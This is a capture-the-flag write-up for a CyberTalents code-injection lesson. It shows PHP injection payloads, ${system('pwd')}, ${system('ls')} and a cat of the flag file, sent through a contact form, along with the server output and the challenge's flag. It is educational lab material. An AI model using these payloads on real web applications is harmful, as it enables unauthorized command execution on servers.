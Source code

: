 # Lesson 14: Code Injection

> Lesson Link:\
> *[https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/code-injection](https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/code-injection)*

## Introduction

In this lesson, we will learn about Code Injection, and how can we use it to execute commands on the server.

> ### What is Code Injection?
>
> #### Code injection is a web security vulnerability that allows an attacker to execute arbitrary code on the host server that is running an application. Code injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Code injection attacks are possible mainly due to insufficient input validation

## Challenge

> Name:\
> *Hashable*

---

> Description:\
> *A famous enterprise blog was hacked, can you figure out how it was hacked?*

## Solution

In this challenge, we have a website, we need to get the flag.

So First of all, lets navigate to the contact page, and try to send a message to the admin.

That contains this payload:

```php
${system('pwd')}
```

After sending the request, we will get a response that says:
![alt](../assets/CybertTalents/message/1.png)
```html
/var/www/html Message successfully sent!
```

So, we can see that the website is using `system` function to execute the command, and we can use it to get the flag.

Lets try to send this payload to the website:

```php
${system('ls')}
```
After sending the request, we will get a response that says:
![alt](../assets/CybertTalents/message/2.png)
```html
about.php contact.php css flag_23894ABCX1.txt footer.php gulpfile.js header.php img index.php js package-lock.json package.json post.php scss vendor Message successfully sent!
```

Here is the flag file, lets read it:

```php
${system('cat flag_23894ABCX1.txt')}
```
![alt](../assets/CybertTalents/message/3.png)
After sending the request, we will get a response that says:

```html
18ab51f960bd149bcb2497b9998c752c Message successfully sent!
```

And Here is the flag.

## Flag

> 18ab51f960bd149bcb2497b9998c752c

## References

- [https://www.owasp.org/index.php/Code_Injection](https://www.owasp.org/index.php/Code_Injection)
